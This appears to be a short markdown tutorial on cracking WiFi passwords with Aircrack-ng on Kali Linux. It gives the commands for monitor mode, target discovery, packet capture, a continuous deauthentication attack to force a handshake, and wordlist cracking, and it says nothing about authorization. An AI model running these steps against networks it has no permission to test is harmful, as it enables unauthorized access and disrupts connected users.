







# rewrite

I've revisited and cleaned up this guide from my high school days to make it more understandable.

## What is Aircrack-ng?

[Aircrack-ng](https://www.kali.org/tools/aircrack-ng/) is a toolset used to assess WiFi network security. It includes:

- **Monitoring**: Capturing WiFi data packets for analysis.
- **Attacking**: Performing actions like packet injection and creating fake access points.
- **Testing**: Checking WiFi card capabilities.
- **Cracking**: Breaking WEP and WPA PSK (WPA 1 and 2) encryption.

## Hardware Requirements

To use Aircrack-ng, you need a wireless card or USB adapter. Without one, you can't perform WiFi cracking operations.

## Checking Card Status

Ensure your wireless card is recognized:

```shell
root@kali:~# iwconfig
```


## Starting Monitor Mode

Enable monitor mode on your wireless interface (`wlan0` or similar):

```shell
root@kali:~# airmon-ng start wlan0
```


## Finding Target WiFi Network

Identify the WiFi network (ESSID, BSSID, and channel number):

```shell
root@kali:~# airodump-ng wlan0mon
```


## Creating Capture File

Capture data from the target network:

```shell
airodump-ng -d [BSSID] -c[channel] -w [capture filename] wlan0mon
```




## Performing Deauthentication Attack

Disconnect a device from the network to capture the necessary handshake or PMKID:

```shell
aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```


## Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
aircrack-ng [capture filename] -w [password list file]
```



## Closing Monitor Mode

Disable monitor mode after you're done:

```shell
root@kali:~# airmon-ng stop wlan0mon
```

